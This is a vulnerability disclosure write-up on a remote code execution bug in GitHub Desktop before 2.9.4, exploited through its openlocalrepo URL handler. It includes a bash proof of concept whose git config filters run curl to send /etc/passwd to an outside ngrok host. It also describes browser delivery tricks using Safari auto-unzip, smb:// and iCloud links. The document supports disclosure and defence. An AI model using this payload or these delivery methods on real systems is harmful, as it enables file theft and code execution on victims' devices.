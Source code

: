 # RCE in [GitHub Desktop](https://github.com/desktop/desktop) < 2.9.4

![](github_desktop_openlocalrepo_safari.gif)

- [RCE in GitHub Desktop < 2.9.4](#rce-in-github-desktop-294)
- [Intro](#intro)
- [Summary](#summary)
- [Details (< v2.9.4)](#details--v294)
  - ["openlocalrepo" URL command](#openlocalrepo-url-command)
  - [Crafting a "poisoned" git repository](#crafting-a-poisoned-git-repository)
  - [Achieving code execution](#achieving-code-execution)
  - [Delivering a malicious repository to user device](#delivering-a-malicious-repository-to-user-device)
  - [Attack scenarios](#attack-scenarios)
- [Impact & fix](#impact--fix)

# Intro

It's obvious why `git` was [selected by Google](news/google-commits-to-solving-security-problems-in-open-source-projects-like-git-and-laravel/) for a security audit as a top-priority open-source project git.

`git` is a dumb version tracker used by every software engineer for collaboration.

`git`'s destiny is to make collaboration efficient for developer. Therefore, `git` needs to have different functionalities that allow to invoke local programs for remote communication, like diff and formatting.

On top of this, git is a basic primitive for deploying, scaling and managing source code and releases. Things like git-lfs make git accessible to a more broad scope of potential users.

# Summary

`openlocalrepo` [URI command](https://github.com/desktop/desktop/blob/18238077aa1e4851e710cfa66587cd4fd597bacd/app/src/cli/commands/open.ts#L35) in GitHub Desktop < 2.9.4 allows importing a crafted repository with malicious payload in `/.git/config` on the targeted machine leading to code execution.

# Details (< v2.9.4)

## "openlocalrepo" URL command

Unlike `openrepo` URI command, `openlocalrepo` doesn't ask the user for a confirmation to import a repository from local FS.
`github-mac://openlocalrepo/<path_to_local_repo>` command immediately imports the specified local repository into GitHub Desktop app.

## Crafting a "poisoned" git repository

If repository won't be downloaded via `git clone`, then attacker can supply its own repository configuration in `.git/config`

```bash
mkdir -p /tmp/evil
cd /tmp/evil
git init
cat > ./.git/config<<- EOM
[filter "any"]
    smudge = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/smudge
    clean = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/clean
EOM
touch example
git add ./example
git commit -m 'commit'
echo "*  text  filter=any" > .gitattributes
```

> Make sure to replace the test payload
> To confirm the config is poisoned run `git status` inside the repo

This repo has [git filters](https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes) that GitHub Desktop will execute as soon as the repo is imported.
When Desktop imports the repo it'll run `any` filter for `.gitattributes` file, because this file hasn't been committed yet.

## Achieving code execution

At this point, we know the following things:

- importing a local repo with URL handler doesn't require user confirmation (except for running the URL command in the browser).
- importing a local repo may lead to code execution

That means, **running a URL command can lead to malicious code execution** on user device.

## Delivering a malicious repository to user device

This is a pretty annoying task and it depends on what we already know about the target, specifically:

**Q:** What's the OS/browser/username on the targeted device?

> it's possible to discover OS/browser from User-Agent
> it's possible to discover username by previously opening a `ssh://` link in the browser (if user confirms, a SSH session will be started with the current username).
> There are other esoteric methods like stealing the username by sending an HTML file to the target (and disclosing the full path to attacker using JS later).

**Safari: `"Open 'safe' files"` isn't that safe**

**By default**, Safari has **"Open 'safe' files after downloading"** option enabled.
Thus, running `location.href = "./payload.zip"` makes Safari unzipping the archive to `~/Downloads/evil` **without any user interaction**.

**Delivering malicious files with `smb://`**

If it's macOS or Win, we can drop the folder with `location.href="smb://publicshare"`
In macOS, this requires not more than a single click from the target.

**Esoteric methods: Keybase, Google Drive, etc.**

I described some alternative payload delivery methods (Keybase, GDrive, iCloud, etc) in [this blogpost about `.terminal` files](https://medium.com/@metnew/exploiting-popular-macos-apps-with-a-single-terminal-file-f6c2efdfedaa).

**Delivering the payload w icloud links (macOS 10.15)**

URLs like `icloud-sharing://www.icloud.com/iclouddrive/0sW3_56zbqY0Exxxxxxxxxxxx#evil` on macOS 10.15 automatically download folders from the web to user's local iCloud files.

**Delivery summary**

**Hypothesis**: delivering a malicious folder to the device doesn't require more than 1 click from the target.

> Because `smb://` strategy allows doing this on both macOS and Win in no more than 1 click and **doesn't have any specific requirements** (e.g., OS username, OS settings, etc).

> **NOTE:** I don't have a Win machine. But from what I remember, Win could mount public shares without triggering a dialog at all. This hypothesis requires a confirmation though.

## Attack scenarios

**Safari attack scenario**

**[PoC Screencast](https://drive.google.com/file/d/1QTEtoT_RyZz3ZtFpND82rD_nyXKHDF8L/view?usp=sharing)**

1. User visits the attacker's website
2. The website downloads a malicious archive. The archive with the malicious repo is extracted to `/Users/user/Downloads/archive`
3. The website runs `location.href = 'github-mac://openlocalrepo//Users/user/Downloads/archive'`.
4. pwn.

**smb:// attack scenario**

**[PoC Screencast](https://drive.google.com/file/d/1QNDr_qzO-KpKMbKEbZ5YW0IhxBHLuJ_e/view?usp=sharing)**

> PoC took a bit long, but it's possible to fine tune the smb server to skip that pause I had in the screencast

1. User visits the attacker's website
2. The website opens `location.href = "smb://guest:guest@publicshare"`. (user confirms)
3. The archive with the malicious repo is mounted to `/Volumes/share/evil`
4. The website runs `location.href = 'github-mac://openlocalrepo//Volumes/share/evil'`.
5. pwn.

# Impact & fix

Attacker can run arbitrary code on the targeted device using Github Desktop protocol handler.

As of version 2.9.4, GitHub Desktop asks for a confirmation when opening a local repository :)

See [this PR](https://github.com/desktop/desktop/pull/12935).

**Timeline**

- Aug 29 2021 - initial report
- Sep 9 2021 - the vulnerability is confirmed
- Sep 10 2021 - pull request with [fix](https://github.com/desktop/desktop/pull/12935) is available.
- Sep 10 2021 - GitHub awarded $2K bounty.

**Bounty concerns**

I had a slight feeling the bounty is too small. Because previously similar bugs in GitHub Desktop were awarded with $5K and $10K bounties. GitHub declares they pay bounties only for Critical issues and this one requires conditions to exploit, so I'm kinda ok with this. Maybe I was just too much excited about my finding :)

**Further research**

In the next write-up I'm going to share how I made over $50K+ on some git bugs and features. Stay tuned :)
